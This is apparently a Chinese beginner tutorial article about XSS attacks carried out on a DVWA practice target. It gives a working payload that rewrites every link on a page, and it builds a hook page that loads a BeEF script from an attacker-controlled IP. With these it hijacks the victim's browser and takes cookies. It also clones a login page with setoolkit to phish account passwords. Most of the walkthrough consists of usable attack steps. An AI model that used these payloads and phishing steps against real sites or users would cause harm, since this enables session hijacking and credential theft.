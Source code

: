 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzU4MjYxNTYwNA==&mid=2247487794&idx=1&sn=0cea81a72fef80ba36d063cc1c42e9da

#  新手基础学习—XSS攻击实战应用方式  
原创 【白】  白安全组   2025-06-28 08:23  
  
靶场地址可以访问www.wangehacker.cn中找到社团资源，找到对应的靶场，也可自行本地搭建。（网上搜DVWA靶场搭建会有很多）  
  
  
任务一：构建反射型XSS攻击，实现修改页面所有链接  
  
构建一个payload需要将页面的连接也就是a标签改掉，所以其中需要写一个循环语句，语句结构：  

```
<script>
window.onload = function(){
var link = document.getElementsByTagName(&#34;a&#34;);
for(j=0;j<link.length;j++){
link[j].href=&#34;http://www.baidu.com&#34;;}
}</script>
```

  
  
其中getElementsByTagName是获取页面中所有标签名为a的，也就是所有的a标签，下面一个循环语句替换所有a标签。  
  
然后我们打开靶场将语句注入进去。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lmqSYkonvBPx5YPZjsCrAud2sxXmSHqQbFzqNnktvicMg0O1OOibQTsyg/640?wx_fmt=png&from=appmsg "")  
  
我们从上面注入进去后，查看源码发现都被替换成百度的地址了。  
  
  
任务二：使用beef 劫持用户浏览器  
  
首先我们在kali中打开beef，然后我们设置一下密码就可以加载登录后台了，后台的用户名是beef  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7libo5g5EHJRibOaick2iaPG3e16qPPjSshguLCObM086IGwia4xic0Bf8lLHA/640?wx_fmt=png&from=appmsg "")  
  
我们登录一下，地址在这里  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7ltjSk8Eu5pD01tJ4ibDRFeozQRa0tvtDSU3ErPY2Q76vicFVF06VLTxSQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lgOicw7LK6ibbOh90mcKmPZ2XNlUrjZ1yCTQz1PwGcyEjfaM0VKiaLZJ9w/640?wx_fmt=png&from=appmsg "")  
  
我们新建一个页面来加载beef的js文件，我们先启动apache  
  
systemctl start apache2  
  
然后我们新建一个html文件  
  
vim /var/www/html/hook.html  
  
然后写入  

```
<html><head>
<script src=’http://192.168.43.15:3000/hook.js’></script>
</head><body><h1>hi</h1></body></html>
```

  
  
然后我们将上面的payload改一下  

```
<script>
window.onload = function(){
var link = document.getElementsByTagName(&#34;a&#34;);
for(j=0;j<link.length;j++){
link[j].href=&#34;http://192.168.43.15/hook.html&#34;;}
}</script>
```

  
  
我们将payload插入进去后随便点开一个连接  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7liaxcKhJvQsKxS9kAbYBB1MILmPglK3qZYibuMgbcUCiaezZNgPoeyXM5w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lprEauOL36QticJia1cf2Yop8Nfd17vFSKWSQF1ibRUic1mQRgAmialxBWkQ/640?wx_fmt=png&from=appmsg "")  
  
然后我们打开beef就可以看到上线了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lNzsRicK3WoKXYLO9cZRcLmfOs2k7WOfQiaYbyTSricUoZZMrTKvQiaibWaw/640?wx_fmt=png&from=appmsg "")  
  
获取cookie  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7l5dXJL4AdxHMm1bWYXU1WMP2PGozAJvBGibwrTibfMvoEUQfEHUnhkxCA/640?wx_fmt=png&from=appmsg "")  
  
  
任务三：实现自定义弹窗位置和大小，并在弹窗中加入图片和超链接  
  
我们利用beef进行弹窗。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lEhKrXt1I9dKqmmr1sR3mrAlFtFRNTjCjmP28QqnC3icUibiaY9C5rZ5Hw/640?wx_fmt=png&from=appmsg "")  
  
我们可以看到右下角的弹窗  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lkjCfCz4JSNibS9gcYjErhMxjEW6SEV0D6H2PZdEakCFY0WxqkDHsFyQ/640?wx_fmt=png&from=appmsg "")  
  
我们需要进去加上图片并且修改一下弹窗的大小和位置  
  
我们先找到路径cd /usr/share/beef-xss/modules/persistence/popunder_window  
  
然后我们到目录下查看到底有什么内容  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7leV9ho0OwJLHv25rrZnB8V9gicpO1kkUcXrWazROqM7cmMTEs1y6gqiaQ/640?wx_fmt=png&from=appmsg "")  
  
不出意外应该是在js中我们打开看一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7ltgD2EtGJdoF1x0Mnse4jTDVfkDsibcJZ0WtiaEbvneVkqqHEqGA8wdIA/640?wx_fmt=png&from=appmsg "")  
  
宽2和高都在这里，我们修改一下大小，给一个800x800的正方形弹窗吧。  
  
再到弹窗的页面目录cd /usr/share/beef-xss/extensions/demos/html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7l4AneJ4ibNtOBF6JOWrjia27E9H5S3EIZhvKTCdenGRcXb2GfgQnpIq1w/640?wx_fmt=png&from=appmsg "")  
  
然后上传一个图片后插入进去  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lI97w3dCXRvEfreU8JsQolPMEWTOd6e9HFj6emJc5iboEEFuGHUBdpBw/640?wx_fmt=png&from=appmsg "")  
  

```
<a href=&#34;http://www.baidu.com&#34; target=&#34;_blank&#34; ><img src=&#34;1.png&#34;
width=&#34;800&#34; height=&#34;800&#34;></a>
```

  
  
我们执行一下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lfIicJTY3UW1Rk8CxQPdQjSQBicjRFribmAef8B694QtoeOh12ll17AToA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lQCD9gmRj5rWsdj1GzHEd1UW177MwKuKbMTdOiccmicLMIYJYyrzKJXug/640?wx_fmt=png&from=appmsg "")  
  
右边就是我上传的图片了，已经被弹窗成功执行了  
  
  
任务四： 使用setoolkit制作钓鱼页面并获取用户的账号  
  
我们首先要去kali上面打开setoolkit，然后选择社会工程学项目，顺序大概就是1-2-3-2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lP00icxhZJKIdQqicO33y2ScHtzXibxmRMtDPWlzg0iaouLumMmam0jxBWA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lKm84I8bAS8FicbAKzRmoBJ7FhHBq0vbQOjSrRpYvD9SLAiaSuibUyDm9Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7l7xUiahY9bT7f5TmRQOrwKvOw2IWszNcIQPbCaaoTI2JPicAxHkiblzSiaA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7licoqJsnhXShTs8FkwpomFeuKxWkw44Gt1FSibaVjYYQXUbHeT01zaJRw/640?wx_fmt=png&from=appmsg "")  
  
设置一个监听端口和需要克隆的网站网址  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lVv6jfHsl8CBApXDMAbCrrZeFl8YqM2ISHaJSdMKZ05SexuY9aRr9sg/640?wx_fmt=png&from=appmsg "")  
  
然后我们访问一下钓鱼站点看看  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lia4V0UicYDCTByyWuZbm9E46YAeg9bHMJlRBNPZGSnOWxHHZGjXGrhfw/640?wx_fmt=png&from=appmsg "")  
  
好的，一模一样，我们可以将这个连接插入到弹窗中，或者利用xss来对目标的网站插入跳转都可以。  
  
我这里选择插入到弹窗中，我们将弹窗的图片跳转连接修改一下即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7l5S0FduUNbVJOXRsyTPpX4WZcef0GNCUAygvBZv1DTJbZsBcgokpGUw/640?wx_fmt=png&from=appmsg "")  
  
然后我们弹窗  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lBLPQtvI8qH0DX1WTfX9BQTaG4via0V3iceTW6ZK7sa3AQ8UY3jeiaATiaQ/640?wx_fmt=png&from=appmsg "")  
  
我们点击图片  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7lACc8rXoG7tATvuuGP6YfNVEmEibeYzjnyWYTINnwciccZicwomB75WYtA/640?wx_fmt=png&from=appmsg "")  
  
跳转到了我们的钓鱼页面在这里输入账号密码.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/1AUjJ6HpTUYj4GM697UWUic9licFOlMO7ltYZdBrDsqCw9mAfc8hcDHVxuQZIo7p6iaEs3DbVoLibKlicuibOyXqpWJA/640?wx_fmt=png&from=appmsg "")  
  
我们输入的账号密码就成功回显了。同时页面也会跳转到原本的登录页面  
  
  
